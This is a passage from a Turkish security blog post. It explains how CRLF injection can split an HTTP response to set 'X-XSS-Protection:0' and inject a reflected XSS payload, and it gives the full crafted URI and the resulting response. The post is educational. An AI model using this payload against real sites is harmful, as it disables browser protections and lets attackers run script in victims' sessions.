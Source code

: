 ### X-XSS-Protection Bypass via CRLF Injection
CRLF Injection zafiyetinde HTTP yanıtını bölerek Body ve/veya Header ekleyebildiğimiz biliyoruz. Buradaki zafiyette de tam olarak bu durum söz konusu. Güvenli sayılan bir X-XSS-Protection yapısı normalde şu şekildedir:
```http
X-XSS-Protection: 1; mode=block
```

Eğer CRLF Injection zafiyeti yardımıyla **X-XSS-Protection: 0;** tanımını yapabilirsek ve Body'de XSS Payload'umuzu gönderirsek ne olur? Şanslıysak X-XSS-Protection başlığını bypasslayabiliriz. Aşağıdaki URI'ı inceleyelim.
```http
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

Burada olanlara biraz daha yakından bakacak olursak CR(%0d) ve LF(%0a) karakterleri ile **Content-Length:35** ve **X-XSS-Protection:0** HTTP başlıkları eklenmekt. Ardından XSS payload'umuz yani **<svg onload=alert(document.domain)>** 'i ekliyoruz. Burada dikkat etmemiz gereken nokta ise Content-Length değerinin Payload'umuzun karakter sayısına eşit olarak set edilmesidir. Son durumunda HTTP isteği şu şekilde olacaktır:
```ruby
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2022 01:33:70 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2022 13:37:00 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

Bu noktada X-XSS-Protection HTTP başlığını atlatmış ve Reflected XSS zafiyetini tetiklemiş olacağız. Unutmamalıyız ki aynı yöntem ile CSP gibi farklı güvenlik başlıkları da atlatılabilmekte.

## Geri Bildirim
HTTP güvenlik başlıklarının nasıl atlatılabileceğini anlattığım blog yazısı bu kadardı. Herhangi bir geri bildiriminiz olması durumunda benimle herhangi bir iletişim kanalı (Twitter, Threema vb.) üzerinden iletişime geçebilirsiniz. Geri bildirimleriniz üzerine blog yazılarını ivedi olarak güncellemekteyim. Son olarak güncelliğini yitirmiş atlatma yöntemlerini de ele almamın sebebi işin çıkış noktalarını daha iyi kavramanız ve tarihçesini de bilmenizi istemem idi.
